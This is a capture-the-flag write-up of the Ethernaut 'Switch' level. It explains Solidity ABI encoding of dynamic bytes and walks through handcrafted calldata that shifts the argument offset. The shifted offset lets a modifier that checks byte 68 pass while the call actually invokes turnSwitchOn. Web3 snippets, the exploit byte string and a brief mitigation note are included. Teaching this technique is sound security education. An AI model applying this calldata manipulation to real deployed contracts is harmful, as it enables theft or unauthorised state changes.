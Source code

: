 ```yaml
---
title: Level 29 - Switch
slug: level-29
published: 06-10-2023
lastEdited:
imgSrc: /images/ethernaut/ethernaut29.svg
---
```


## Objectives

1. Flip the switch. Easy right?

## Vulnerabilities

### Assuming positions in `calldata` with dynamic types.

The way _Dynamic types_ are encoded when passed as function arguments is not straightforward. They are encoded in the 
following sequence:

- 32 bytes for the **offest** value which indicates where the dynamic data starts. For instance, 0x20 (or 32 in decimals) means that
the dynamic data starts exactly 32 bytes after this field. This allows the fixed-length portion of the function arguments 
to be densely packed together, saving space.

- 32 bytes of the **length** value which specifies the length of the data. 0x04 means that the bytes argument is 4 bytes long.

- Finally, you have the actual data.

since the **offset** and **length** vary, you can't assume specific position in the `calldata`. This could
be exploited.


## Exploit

it's quite straightforward to see that we want to call `flipSwitch` with some data in a way for `turnSwitchOn` 
to be called by the contract itself. Let's investigate deeper.

`flipSwitch` has the function modifier `onlyOff` which is the following:

```solidity
modifier onlyOff() {
    // we use a complex data type to put in memory
    bytes32[1] memory selector;
    // check that the calldata at position 68 (location of _data)
    assembly {
        calldatacopy(selector, 68, 4) // grab function selector from calldata
    }
    require(
        selector[0] == offSelector,
        "Can only call the turnOffSwitch function"
    );
    _;
}
```

The inline assembly assigns the selector variable to the value of the 4 bytes starting at the 68th byte in the `calldata`.
The `require`function needs those 4 bytes to be the function selector of `turnSwitchOff`. If we can somehow create a 
`calldata` that has `turnSwitchOff` at the 68th bytes while also having the `turnSwitchOn` function selector, we could 
probably exploit the contract.

1. Let's find the function selector of  `turnSwitchOff` and `turnSwitchOn`. Let's do this using web3 in the console:
```javascript
const offSelector = web3.eth.abi.encodeFunctionSignature("turnSwitchOff()"); 
// 0x20606e15
const onSelector = web3.eth.abi.encodeFunctionSignature("turnSwitchOn()"); 
// 0x76227e12
```

2. Next since I'm too lazy to look into the docs and figure out by hand how calling `flipSwitch` with an argument is encoded
into, let's log it out in the console using web3 again.


```javascript
const calldata = web3.eth.abi.encodeFunctionCall({
  name: 'flipSwitch',
  type: 'function',
  inputs: [{ type: 'bytes', name: '_data' }]
}, [offSelector]);
// 0x30c13ade0000000000000000000000000000000000000000000000000000000000000020000000000000000000000000000000000000000000000000000000000000000420606e1500000000000000000000000000000000000000000000000000000000
```

Let's make sense of this byte array monster using what we know about dynamic and a trusty <a target="\_blank" rel="noopener noreferrer" hre="https://wordcounter.net/character-count">character counter</a>.

`0x` Doesn't count, it just indicates we are dealing in bytes.
`30c13ade` 4 bytes representing the function selector of `flipSwitch` with `offSelector` or `"0x20606e15"` as argument.
`0000000000000000000000000000000000000000000000000000000000000020` 32 bytes representing a 32 (0x20 in decimal) bytes offset.
`0000000000000000000000000000000000000000000000000000000000000004` 32 bytes representing the length of the value. Only 4 bytes long in this case.
`20606e1500000000000000000000000000000000000000000000000000000000` 32 bytes which is the `offSelector` right padded by 28 bytes of zeroes.

3. Let's create our own `calldata` with `offSelector` at the 68th byte but let's tell the EVM to look for the value 
of the argument elsewhere and we will point it to the value of `onSelector`.

`0x` Doesn't count, it just indicates we are dealing in bytes.
`30c13ade` Same 4 bytes representing the function selector of `flipSwitch` with `offSelector` or `"0x20606e15"` as argument.
`0000000000000000000000000000000000000000000000000000000000000060` 32 bytes representing a 96 (0x60 in decimal) bytes offset. This is how
we exploit the `onlyOff` function modifier.
`0000000000000000000000000000000000000000000000000000000000000000` Some extra bytes that we introduces with the new padding.
`20606e1500000000000000000000000000000000000000000000000000000000` 32 bytes which is the `offSelector` right padded by 28 bytes of zeroes. 
It is still at the 68th byte and so the `onlyOff` require function will be happy.
`0000000000000000000000000000000000000000000000000000000000000004` 32 bytes representing the length of the value which is 4.
`76227e1200000000000000000000000000000000000000000000000000000000` 32 bytes which is the `onSelector` right padded with zeroes.

4. All that is left is to call `flipSwitch` with the listed byte strings concatenated into a giant one.

## Suggested mitigation

1. Adding additionnal verification in the `calldata` could help prevent this but I would suggest to avoid
relying on low level call like this when it's not necessary.

## Further reading

- Solidity docs on ABI encoding <ExternalLink href={"https://docs.soliditylang.org/en/develop/abi-spec.html"} />
- Character counter tool <ExternalLink href={"https://wordcounter.net/character-count"} />
